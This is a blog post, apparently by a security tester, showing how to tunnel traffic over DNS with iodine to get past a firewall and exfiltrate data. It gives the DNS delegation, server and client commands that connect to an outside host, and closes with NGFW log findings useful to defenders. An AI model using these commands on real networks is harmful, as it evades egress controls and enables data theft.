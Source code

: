 ```yaml
---
layout: post
title:  "Application Firewall Bypass over DNS (iodine)"
date:   2020-08-03 10:43:25 -0400
categories: exfiltration 
tags: appid
---
```

<p>
Sometimes the adversary is behind a security stack and needs to bypass that stack for one reason or another. Also once an environment has been compromised and the adversary finds some desirable data, the data needs to be removed from the network. In this use case we will assume that common protocols like FTP and SSH are heavily restricted on egress traffic (as they should be). 
</p>


<p>
Often times DNS to any name server is still permitted. This is typically because of lack of awareness, and fear that without DNS the entire environment feels down to the users. In many networks with captive portals (airports, hotels, etc) DNS is permitted prior to signing in. This means that if you could make the requests actually look like DNS you should be able to bypass other controls.
</p>

<p>
Iodine is a pretty old, yet stable, tool that allows you to tunnel traffic inside DNS requests. I've found that the client and server run very easily on linux, and much less so on Mac and Windows so be prepared for that.
</p>

<p>
You will require a publicly accessible domain under your control and another system on the outside of the security stack.
</p>


<h3>Step 1 - Configure the Domain</h3>

<p>
This needs to be done before you get stuck behind a security stack. So before you get there make sure to have a stable host online that also permits port 53 ingress. You also need to setup a subdomain on a domain you control.
</p>

<p>
We will be leveraging the DNS in this container, <a href="https://github.com/freshdemo/mailanddns" target="_blank">https://github.com/freshdemo/mailanddns</a>.
</p>

<p>
The zone file will need to be edited to add a sub-domain which is delegated to the public IP address of your iodine server. Keep in mind that example.com is not publicly available so you would need to have your laptop pointed to the public IP of this docker container for this to work, which is why you would want a publicly routable domain outside of a proof of concept. The IP address for t1ns is the IP address of a host instantiated in Azure for this testing.
</p>
<br>
<br>
<code>
editing forward.example.com

t1      IN      NS      t1ns.example.com.
t1ns    IN      A       52.156.0.169
</code>

<p>
Don't forget to restart BIND.
</p>
<br>
<br>
<code>
/etc/init.d/bind9 restart
</code>

<p>
You can validate the DNS is setup correctly by ensuring that the delegation resolves correctly.
</p>
<br>
<br>
<code>
dig t1ns.example.com +short
52.156.0.169
</code>

<h3>Step 2 - Start the Server</h3>

<p>
From the server that will run iodine (in this case 52.156.0.169) start the iodine server. The address 172.16.25.1 is used as a point to point interface with your client, so this must be in a different subnet as the client and server.
</p>
<br>
<br>
<code>
iodined -f 172.16.25.1 -P boom t1.example.com
</code>

<p>
If all went well you should see something like this.
</p>

<img src="/images/appid-evasion-iodineserver.png">


<h3>Step 3 - Start the Client</h3>

<p>
From the client system behind the security stack start iodine to connect to the iodine server.
</p>
<br>
<br>
<code>
iodine -f 52.156.0.169 -P boom t1.example.com
</code>

<p>
You should see messages that look like the following, indicating that the tunnel interface has been brought up.
</p>

<img src="/images/appid-evasion-iodineclient.png">

<p>
At this point you should be able to ping the server (172.16.25.1) at the other side of the tunnel.
</p>

<img src="/images/appid-evasion-iodineping.png">

<h3>Step 4 - Use the Tunnel</h3>

<p>
With this current point to point tunnel established over DNS you would now want to proxy your client traffic over the tunnel. This could be accomplished by configuring a web proxy at the server side.
</p>

<p>
For additional security without the requirement to setup more software you could use an SSH tunnel where the address in this case would be 172.16.25.1, <a href="http://127.0.0.1:4000/exfiltration/2020/07/28/appid-evasion-sshtunnel.html" target="_blank">http://127.0.0.1:4000/exfiltration/2020/07/28/appid-evasion-sshtunnel.html</a>
<p>

<h3>Step 5 - View the Results</h3>


<p>
Looking at the following NGFW log we can see that the NGFW permitted the session. That being said there were three opportunities so far that it could have prevented this traffic; The application was identified as tcp-over-dns where all you would want is DNS at most, then there were two spyware signatures identified as "Yourfreedom Command and Control" and "Iodine DNS Tunnel Tool Command and Control".
</p>
<br>
<br>
<img src="/images/appid-evasion-iodinengfw.png" alt="ngfw">



